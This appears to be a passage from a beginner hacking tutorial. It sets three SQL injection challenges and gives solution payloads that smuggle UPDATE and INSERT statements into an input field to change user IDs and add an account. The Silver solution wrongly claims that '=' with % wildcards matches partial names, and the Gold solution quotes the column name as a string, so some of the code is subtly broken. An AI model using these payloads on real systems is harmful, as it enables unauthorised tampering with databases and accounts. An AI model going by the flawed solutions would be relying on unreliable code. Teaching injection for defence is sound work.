 ### Challanges

After every project, there are three challenges that require you to experiment a little bit and come up with solutions.

Let's get going!

### Bronze
Change the ID of the user with the email address frank@dark.net to 123.

### Silver
Change the ID of a user with the front name 'Alice' to 456.
Do you remember the user_name field? you might need wildcards (%) because you don't know the full name.

### Gold
insert a new user for yourself into the database.

You need to take care of the email_address field.

### Bronze Solution

```SQL
x'; UPDATE users SET id = 123 WHERE email_address = 'frank@dark.net
```

### Silver Solution

```SQL
x'; UPDATE users SET id = 456 WHERE user_name = '%Alice%
```
Psst: we use the wildcards % to look for fields that contain Alice, as we dont know the full name.

### Gold solution

```SQL
x'; INSERT INTO users ('email_address') VALUES ('me@me.com'); --
```

Way to go! in the next project, we'll take another leap towards becoming hackers!

Remember that hacking can be used for good and bad purposes. We'll stay on the light side.

## Social Engineering
Done before